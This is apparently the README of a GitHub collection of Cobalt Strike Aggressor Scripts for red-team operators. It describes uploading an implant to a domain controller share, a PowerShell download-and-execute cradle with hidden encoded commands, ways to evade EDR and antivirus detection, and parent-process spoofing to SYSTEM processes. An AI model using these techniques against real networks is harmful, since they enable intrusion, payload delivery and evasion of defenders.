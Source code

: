 ## cobalt-arsenal

My published set of Aggressor Scripts for Cobalt Strike 4.0+

- **`better-upload.cna`** - Simple yet **super handy** script that overrides built-in `upload` command by having one that offers additional, second parameter - being _remote file path_. By default we're only able to upload file to the CWD. This implementation let's us upload wherever we like:

```
beacon> upload implant.exe \\DC1\c$\windows\temp\implant.exe
[*] Tasked Beacon to upload file (size: 929.25KB) from: (implant.exe) to: (\\DC1\c$\windows\temp\implant.exe)
[+] host called home, sent: 951655 bytes

```

- **`cwd-in-beacon-status-bar.cna`** - Simple Beacon console status bar enhancement showing Beacon's last known current working directory path, as well as adding fixed-width to last-seen meter. Additionally, this script enhances `cd` command to make it restore previous path if `cd -` was issued (and previous path is known).

- **`custom-powershell-hooks.cna`** - This script introduces several different methods for Powershell download and execution primitives, other than Cobalt Strike's default `(Net.WebClient).DownloadString` and `IEX()`:
```
		set POWERSHELL_DOWNLOAD_CRADLE {
			return "IEX (New-Object Net.Webclient).DownloadString(' $+ $1 $+ ')";
		}
		[...]

		set POWERSHELL_COMMAND {
		[...]
			return "powershell -nop -w hidden -encodedcommand $script";
		}
```

Aforementioned methods are heavily flagged these days by EDRs and AVs so we would prefer to avoid their use. It so happens that Cobalt Strike by default embeds them excessively, generating lot of noise in such systems. We can tell Cobalt Strike to structure it's Powershell use patterns differently. However, some of introduced custom methods may not work. In such situations, we can always switch back to battle tested Cobalt Strike defaults by setting `$USE_UNSAFE_ENCODEDCOMMAND_AND_IEX = 2;` in the script's header.

- **`FilesColor.cna`** - Color Coded Files Listing. Similar to `ProcessColor.cna` by [@r3dQu1nn](https://github.com/harleyQu1nn/AggressorScripts) this script colorizes file listing outputs based on file type and extension. **It also tries to keep track of uploaded files to have them highlighted in files listing as well**. The Colors scheme information will be showed only three times by default, unless configured otherwise via global variable named `$TIMES_TO_DISPLAY_COLORS_SCHEME`.

![FilesColor example](https://raw.githubusercontent.com/mgeeky/cobalt-arsenal/master/img/1.PNG)

- **`Forwarded_Ports.cna`** - Keeps track of configured remote port forwardings on all Beacons and lets kill them easily. 

Using `rportfwd` here and there quickly consumes pool of available local ports from which to forward traffic outbound and keeping track of them manually becomes tedious on a long-haul projects. This script aims to fill that gap by collecting these commands and presenting them in a nice visualization pane (concept & implementation based on previous work of @ramen0x3f [leave_no_trace](https://github.com/ramen0x3f/AggressorScripts/blob/master/leave_no_trace.cna), @001SPARTaN and @r3dqu1nn [logvis.cna](https://github.com/invokethreatguy/AggressorCollection/blob/master/harleyQu1nn/logvis.cna) ).

- **`Highlight_Beacons.cna`** - Highlights Beacons for a specified time duration (`$HIGHLIGHT_DURATION`) on Initial check-in event, when exiting (and after Beacon exited) and after each Beacon command's output. Configurable colors and events found in `%HIGHLIGHTS` dictionary. Hint: Specify `output => ""` to disable highlighting new Beacon command outputs.

- **`httprequest.cna`** - Safe & sound HTTP request implementation for Cobalt Strike 4.0 Aggressor Script. Works with HTTP & HTTPS, GET/POST/etc. + redirections. Rationale: I've tested various implementations of HTTP request sending subroutines written in Sleep for CS, but none of them matched by needs - working support for GET/POST, redirections handling and exceptions-safe execution. So I came up with my own implementation. ([gist](https://gist.github.com/mgeeky/2d7f8c2a6ffbfd23301e1e2de0312087)) 

- **`Payload_Variants_Generator.cna`** - This script generates stageless payload variants per each available architecture and output format type. Compatible with Cobalt Strike 4.0+.

- **`parse-error-codes.cna`** - A handy script that parses reported error codes and prints their corresponding Windows related meaning directly in Beacon's console output.
- 
  **From:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3
  ```

  **To:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3. Parsed error code:
      3 - ERROR_PATH_NOT_FOUND
  ```

- **`settings.cna`** - Script that offers sample implementation for `saveOptions` and `loadOptions` routines, intended to store & restore settings from an external file.

- **`smart-autoppid.cna`** - Autoppid - script that smartely invokes PPID for every new checkin in Beacon. PPID command requires invoked Beacon to have the same Integrity level as the process it want's to assume as it's Parent. That's due to how InitializeProcThreadAttributeList with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS works. In order to avoid harcoded explorer.exe PID assumption, we can look around for a configurable process name and then try to find that process running on the highest available for us integrity level. In that case, unprivileged user would assume PPID of for instance svchost.exe running as that user, wherease the privileged one - could go for the svchost.exe running as NT AUTHORITY\SYSTEM. We aim to smartely pick the most advantageous target, in a dynamic fashion.

The same command is also exposed as an alias:

```
beacon> autoppid
[*] Tasked Beacon to find svchost.exe running as SYSTEM and make it the PPID.
[.] host called home, sent: 12 bytes
Future post-ex jobs will be spawned with fake PPID set to:
	svchost.exe	604	700	x64	NT AUTHORITY\SYSTEM	0

[*] Tasked beacon to spoof 700 as parent process
[.] host called home, sent: 12 bytes
```

